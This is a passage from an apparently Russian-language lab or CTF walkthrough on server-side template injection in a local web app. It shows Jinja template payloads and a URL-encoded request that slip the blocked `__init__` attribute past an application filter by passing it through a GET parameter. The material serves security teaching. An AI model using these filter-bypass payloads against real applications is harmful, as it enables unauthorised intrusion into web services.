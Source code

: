 Значит, что от `self` можно наследоваться. Запишем следующее значение:
```python
{% if self.__init__ %}Hello{% endif %}
```
![](./img/img_7.png)
В ответ получаем 400 ошибку. Это означает, что какие-то символы из `__init__` фильтруются. Можно попытаться использовать следующий payload:
```python
{% if self['\x5f\x5f\x69\x6e\x69\x74\x5f\x5f'] %}Hello{% endif %}
```
предполагая, что фильтр написан на другом языке или используется WAF, но данный payload не пройдёт, так как фильтрация написана в самом приложении, а значит, что `\x5f == _`
Попытаемся использовать GET параметры и объект `request`, который используется внутри функций для получения содержимого POST, GET параметров.
Payload в таком случае будет выглядеть так:
```python
{% if self[request.args.get('in')] %}Hello{% endif %}
```
А сам url должен быть следующим:
```http
http://127.0.0.1:9001/get_user_info?name=%7b%25%20if%20self%5brequest.args.get('in')%5d%20%25%7dHello%7b%25%20endif%20%25%7d&age=26&description=something&in=__init__
```